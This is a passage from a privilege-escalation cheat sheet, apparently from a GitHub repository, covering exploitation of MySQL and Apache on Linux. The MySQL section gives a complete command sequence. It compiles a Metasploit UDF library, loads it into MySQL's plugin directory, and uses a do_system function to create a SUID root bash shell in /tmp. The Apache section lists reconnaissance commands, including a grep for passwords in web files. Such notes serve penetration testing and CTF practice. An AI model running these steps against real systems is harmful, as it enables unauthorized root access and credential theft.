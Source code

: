 ## 📡 Service Exploitation (MySQL, Apache, etc.)

### MySQL Exploitation

```bash
# Check if MySQL runs as root
ps aux | grep mysql | grep root

# Check MySQL version
mysql --version
mysqld --version

# Connect to MySQL (if you have credentials)
mysql -u root -p

#You can also use my script that will connect to a mysql instance and dump it into a nicely formatted text file to allow easy traversal and searching
#mysqldumper: https://github.com/ThatTotallyRealMyth/mysqldumper

# Create User Defined Function (UDF) to execute commands as root
# Compile the UDF shared object on your attacking machine
git clone https://github.com/rapid7/metasploit-framework.git  
cp metasploit-framework/external/source/exploits/mysql_udf/mysql_udf.c .
gcc -g -shared -Wl,-soname,my_udf.so -o my_udf.so mysql_udf.c -fPIC

# Transfer to target and use in MySQL
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/user/my_udf.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/my_udf.so';
mysql> create function do_system returns integer soname 'my_udf.so';
mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');
mysql> exit

# Execute the SUID shell
/tmp/rootbash -p
```

### Apache Exploitation

```bash
# Check if Apache runs as root
ps aux | grep apache | grep root

# Access Apache configuration
cat /etc/apache2/apache2.conf
cat /etc/httpd/conf/httpd.conf

# Look for modules executing as root or with SUID
find /usr/lib/apache2 -perm -u+s 2>/dev/null
find /usr/lib/httpd -perm -u+s 2>/dev/null

# Looking for scripts with credentials
grep -r "password\|user\|pass" /var/www/ 2>/dev/null
```
